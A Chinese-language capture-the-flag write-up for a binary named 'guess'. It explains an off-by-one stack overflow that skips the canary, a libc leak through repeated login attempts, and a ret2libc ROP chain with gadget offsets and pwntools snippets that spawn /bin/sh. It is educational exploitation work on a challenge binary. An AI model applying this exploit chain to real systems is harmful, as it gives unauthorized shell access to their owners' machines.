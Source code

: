 # Guess

```shell
file guess
guess: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6a086a8bf9bd5ad76e6c86b1e16e239da66b1632, stripped
```

感觉就 64 位的信息有点用

## Login

```c
printf("Account: ");
  read(0, buf, 0x100uLL);
  printf("Password: ");
  read(0, v3, 0x100uLL);
  for ( i = 0; i < strlen(buf); ++i )
  {
    if ( buf[i] != v3[i] )
    {
      puts("Login fail");
      return __readfsqword(0x28u) ^ v5;
    }
  }
```

上面代码告诉我们，只要 account 和 password 相同即可注册。



## Launch a Bash

### 关键代码

```c
unsigned __int64 sub_91A()
{
  char buf[64]; // [rsp+10h] [rbp-50h] BYREF
  int i; // [rsp+50h] [rbp-10h]
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Welcome, Boss. Leave your valuable comments: ");
  for ( i = 0; i != 65; ++i )
  {
    read(0, &buf[i], 1uLL);
    if ( buf[i] == 10 )
      break;
  }
  return __readfsqword(0x28u) ^ v3;
}
```



### Buffer Overflow

上面的代码中，buf 数组为 buf[0] 到 buf[63]，但是 read 循环的结束条件为 `i!=65`。

同时，buf 数组之后存的就是 i，那么当 `i==64` 时，本来应该赋值给 buf[64] 的数会赋值给 i，我们给 i 一个大于64 的数，加 1 后超过 65，循环就会继续，我们就可以对二进制文件的其他地方进行改写。

接下来我们由于没有同时可以写和执行的内存，我们只能通过 ROP 来 launch a bash。

这里有一篇不错的 ROP [教程](http://gauss.ececs.uc.edu/Courses/c6056/pdf/rop.pdf) 



### 使用 GDB 获得 buffer 与栈顶的相对位置差

思路：

* buffer：查看第一次 `read(read(0, &buf[i], 1uLL))` 时 `rsi` 寄存器的值
* 栈顶：查看 `return` 时 `rsp` 寄存器的值

先 `./guess`，再开 gdb

```shell
gdb attach $(pidof guess)

rt
# back trace 查看堆栈信息
# 以下面的结果为例：
#0  0x00007f5f622d8992 in __GI___libc_read (fd=0, buf=0x7fff3cf5df10, nbytes=15) at ../sysdeps/unix/sysv/linux/read.c:26
#1  0x000055f739000a1d in ?? ()
#2  0x000055f739000be2 in ?? ()
#3  0x00007f5f621edd90 in __libc_start_call_main (main=main@entry=0x55f739000b62, argc=argc@entry=1, argv=argv@entry=0x7fff3cf5e068) at ../sysdeps/nptl/libc_start_call_main.h:58
#4  0x00007f5f621ede40 in __libc_start_main_impl (main=0x55f739000b62, argc=1, argv=0x7fff3cf5e068, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fff3cf5e058) at ../csu/libc-start.c:392
#5  0x000055f73900083a in ?? ()
# 7f 开头的是调用 libc 里的函数，55 开头的是调用 guess 里的函数

tbreak *0x000055f739000976
# IDA 中 call read 指令的地址是 0x0000000000000976,执行时只有最后几位是不变的，前面是随机的

b *0x000055f7390009bf

c

x $rsi
# x 表示以十六进制输出
# 结果：0x7fff3cf5dca0: 0x00000000

c

x $rsp
# 结果：0x7fff3cf5dcf8: 0x39000b44
```

我们可以得知，buffer 到 return address 的距离是 0x7fff3cf5dcf8 - 0x7fff3cf5dca0 = 0x58

### 函数返回时的栈帧变化

* rsp（低地址，指向栈顶的指针）移到 rbp（高地址，指向栈底的指针）
* rbp 指向的地址存了调用函数原来的 rbp 地址，把 rbp 移动到调用函数的 rbp 地址处，同时将 rsp 上移 1
* 执行 ret 指令，即把 pc 赋值成 rsp 指向的值，并把 rsp 上移 1

### ROP的含义

举个例子，假设要执行 `execve(A)`：

从返回地址，即 rbp 上面 1 的位置，同时也是执行 ret 时 rsp 指针的地址，开始依次写入：

* 指令 `pop rdi;ret` 的地址
* A 的地址
* `execve()` 指令的地址

模拟执行过程如下：

* 恢复栈帧，rsp 上移至 rbp；上移 rbp 至调用函数的 rbp 处，并将 rsp 上移 1
* 执行 ret 指令，把 pc 赋值成指令 `pop rdi;ret` 的地址，并将 rsp 上移 1，指向 A 的地址
* 执行 `pop rdi` 指令，把 A 的地址赋值给 rdi，并将 rsp 上移 1，指向 `execve()` 指令的地址
* 执行 `ret` 指令，把 pc 赋值成 `execve()` 指令的地址
* 最后执行 `execve()` 指令

### 通过 gdb 以及 login fail 得到运行时地址

```shell
# gdb
0x7ffca50abf50: 0x0000000000000a62(输入的password'b')       0x3d071f4750cdf300
0x7ffca50abf60: 0x00007fc78f1346a0(某个libc的地址)    		0x00007ffca50ac070

(gdb) p system
$1 = {int (const char *)} 0x7fc78ef6ad60 <__libc_system>
```

于是我们知道了 system 函数和某个 libc 中不知名地址之间的相对距离

运行时，由于 Login 的比较以 strlen(buf) 结束，所以如果 account 长而 password 短，则在比较完 password 之后会比较 account 的后半段和内存中 password 之后的内容，也就是上面的某个 libc 地址。我们可以通过不断的尝试 account 后半段的内容，通过返回值--是否login 成功来获取那个 libc 地址

```python
# implement in python with pwn
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# libc_addr 为运行时的那个不知名 libc 地址
system_addr = libc_addr - 0x7fc78f1346a0 + 0x7fc78ef6ad60
shellcode_addr = system_addr - libc.symbols["system"] + next(libc.search(b'/bin/sh'))
# gadget: pop rdi; ret
gadget_addr = system_addr - libc.symbols["system"] + 0x2a3e5
```

### 使用  ROPgadget 寻找合适的 gadget

```shell
ldd guess   
linux-vdso.so.1 (0x00007ffd4949a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f0a407d8000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0a40dab000)
```

注意 guess 运行的时候用的是本地的 libc 而不是他给的 libc，到时候求相对位置要分析的是 /lib/x86_64-linux-gnu/libc.so.6

```shell
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only 'pop|ret' | grep rdi  
0x000000000002a745 : pop rdi ; pop rbp ; ret
0x000000000002a3e5 : pop rdi ; ret
0x00000000001bc10d : pop rdi ; ret 0xffe6
```

我们用 0x2a3e5 的 gadget

```python
gadget1_addr = system_addr - libc.symbols["system"] + 0x2a3e5
```

### Overflow 改写 return address

我们的 overflow 分为以下几步：

* 先输入任意的 64 个字符填满 buf[64]

* 然后输入的字符会修改 i 的值，这里我们需要直接让下一次 buf[i] 指向 return address

  调试过程中发现，如果修改 i 到 return address 之间的内存会出发 Segmentation Fault，gdb 调试发现 call 了 __stack_chk_fail，即触发了 canary 保护，因此我们必须跳过中间的内存

  之前计算了 buf 到 return address 差了 0x58，而写入 i 后会 ++i，因此写入`bytes([0x58 - 1])`

* 之后按照 ROP 的分析，依次写入 gadget1_addr，shellcode_addr 和 system_addr

* 最后要停止写入，查看 guess 代码发现 `if ( buf[i] == 10 ) break;`，于是写入 b'0x0a'

但是这样进入 system 函数后会发现在 movaps 指令处Segmentation Fault，查询后发现 movaps 需要 16 字节对齐，由于 padding 是 88，于是需要把 system_addr 往后移 8 位，这样子执行 system 函数的时候 rsp 指针就 16 字节对齐了，但是加入的东西不能影响之前的功能，于是选择加入一个 ret 指令作为 gadget2，这样子 gadget1 执行 ret 指令时，return address 处是 gadget2 的 ret 指令，执行这个 ret 指令后 rsp 继续上移至存储 system 函数地址的内存。

```shell
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only 'ret'         
Gadgets information
============================================================
0x0000000000029cd6 : ret
```

```python
# gadget2: ret
gadget2_addr = system_addr - libc.symbols["system"] + 0x29cd6
```


